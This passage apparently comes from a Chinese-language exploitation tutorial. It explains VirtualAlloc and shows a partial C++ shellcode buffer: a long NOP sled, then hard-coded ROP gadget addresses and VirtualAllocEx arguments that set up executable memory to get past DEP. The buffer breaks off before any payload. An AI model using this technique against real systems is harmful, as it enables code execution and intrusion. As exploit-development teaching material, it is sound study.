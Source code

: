 内存申请成功时函数返回申请内存的起始地址，申请失败时返回 NULL。

我们将用如下代码演示如何利用 VirtualAlloc 函数申请具有可执行权限的内存，并利用memcpy 函数将 shellcode 复制到申请的内存中执行。

```c++
#include<stdlib.h>
#include<string.h>
#include<stdio.h>
#include<windows.h>
char shellcode[]=
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\xBA\xD9\xBB\x7C"//address of PUSH ESP POP EBP RETN 4 
    "\xBC\x45\x82\x7C"//address of call VirtualAllocEx
    "\x90\x90\x90\x90"//
    "\xFF\xFF\xFF\xFF"//hProcess = -1 ,-1 stands for current process
    "\x00\x00\x03\x00"//lpAddress = 00030000
    "\xFF\x00\x00\x00"//dwSize= 0xff
    "\x00\x10\x00\x00"//flAllocationType = 0x1000
    "\x40\x00\x00\x00"//flProtect = 0x40,stands for exec_read_write
    "\x90\x90\x90\x90"
    "\x8A\x17\x84\x7C"
```